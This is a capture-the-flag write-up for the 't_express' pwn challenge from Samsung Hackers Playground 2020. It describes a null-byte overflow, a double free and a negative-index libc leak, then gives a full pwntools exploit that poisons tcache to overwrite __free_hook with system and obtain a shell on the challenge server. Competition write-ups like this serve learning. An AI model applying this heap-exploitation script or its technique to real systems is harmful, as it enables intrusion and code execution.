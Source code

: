# Samsung-ctf

## t_express

I played Hackers Playground-2020 with team warlockrootx, and solved one pwn challenge. The challenges were well organized. 

There were three bugs.
1. When reading firstname and lastname. There is Null byte overflow into the `ticket_type` member of the structure.
2. When we free the pass. The program doesn't initialize the varialble which leads to double free.
3. When viewing the chunk. The `index` variable is signed int. And we can give negative index to leak libc from the libc pointers on bss.

exploit->
1. Negative index to leak the libc address.
2. Free the 0x41 sized chunk.
3. Use Null byte overflow. After we can change the size of the freed 0x41 size to 0x21.
4. Free the chunk again.
5. Tcache-posion. `__free_hook` -> `system`.
6. Shell
```
#### Exploit.

```python
#!/usr/bin/env python3
from pwn import *
"""
typedef struct pass {
    char firstname[8];
    char lastname[8];
    long int ticket_type;
    int meal_type;
    int safari_pass;
    long int giftshop_coupon;
    long int ridecount;
}PASS;
"""
####Utils
def buyticket(choice,firstname,lastname):
    io.sendlineafter("choice: ","1")
    io.sendlineafter("(1/2):",str(choice))
    io.sendafter("First name: ",firstname)
    io.sendafter("Last name: ",lastname)

def viewticket(idx):
    io.sendlineafter("choice: ","2")
    io.sendafter("ticket: ",str(idx))
    io.recvuntil("|name |")
    firstname = io.recvn(0x9)
    lastname = io.recvn(0x8)
    return [firstname,lastname]

def useticket(idx,choice=1,ttype=1):
    io.sendlineafter("choice: ","3")
    io.sendafter("ticket: ",str(idx))
    if ttype==0:
        io.sendlineafter("(1/2/3/4): ",str(choice))

####Addr
leak_offset = 0x1ec723
free_hook = 0x1eeb28
system = 0x55410

####Exploit
#io = process("./t")#,env={"LD_PRELOAD":"./libc.so.6"})
io = remote("t-express.sstf.site",1337)
buyticket(1,"/bin/sh\x00","HKHKHKH") #0
buyticket(2,"HKHK","HKHK") #1
buyticket(1,"HKHK","HKHKHKHK")#2
buyticket(2,"HKHK","HKHK") #3
for i in range(3):
    useticket(1,choice=1,ttype=0)
useticket(1,choice=2,ttype=0)
useticket(1,choice=3,ttype=0)
for i in range(3):
    useticket(3,ttype=0)
useticket(3,choice=2,ttype=0)
useticket(3,choice=3,ttype=0)
libc_leak = u64(viewticket(-8)[1][0x2:0x8]+b"\x00\x00")
libc_base = libc_leak-leak_offset
print("Libc base: 0x%x"%libc_base)
for i in range(0x20):
    useticket(2,ttype=0)
useticket(3,choice=4,ttype=0)
buyticket(1,p64(libc_base+free_hook),"HKHK") #4
buyticket(2,"HKHK","HKHK") #5
buyticket(2,p64(libc_base+system),"\x00") #6
useticket(0)
io.interactive()
```
